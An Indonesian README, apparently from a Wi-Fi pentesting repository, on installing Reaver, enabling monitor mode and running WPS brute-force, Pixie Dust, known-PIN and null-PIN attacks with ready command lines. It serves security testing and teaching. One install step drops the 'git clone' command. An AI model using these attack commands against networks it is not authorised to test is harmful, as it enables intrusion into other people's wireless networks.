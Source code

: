# Reaver

![Reaver](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/reaver/img/reaver.jpg)

## Instalasi

Kali Linux:

1. Menggunakan packet manager (`apt`):

   ```
   sudo apt-get update
   sudo apt install reaver aircrack-ng pixiewps
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install build-essential libpcap-dev git
   https://github.com/t6x/reaver-wps-fork-t6x
   cd reaver-wps-fork-t6x
   make
   sudo make install
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```
   
## Penggunaan

**1. Scan Wi-Fi WPS:**

   ```
   sudo wash -i [interface]
   ```

**2. Pilih Taraget**  
   Pastikan status `Lck` (Lock) tidak menunjukkan `YES`. Jika `YES`, artinya fitur WPS sedang terkunci (tidak bisa diserang).

**3. Jalankan Serangan:**

   1. Brute Force PIN Attack:

      ```
      sudo reaver -i [interface] -b [bssid] -c [channel] -vv
      ```
   2. Pixie Dust Attack:

      ```
      sudo reaver -i [interface] -b [bssid] -c [channel] -K -vv
      ```
   3. Known PIN Attack:

      ```
      sudo reaver -i [interface] -b [bssid] -c [channel] -p [pin_wps] -vv
      ```
   4. Null PIN Attack:

      ```
      sudo reaver -i [interface] -b [bssid] -c [channel] -p "" -vv
      ```

## Video Demonstrasi

https://youtu.be/ftriFQwsiNU?si=Ku-meK7gUpv-RXut
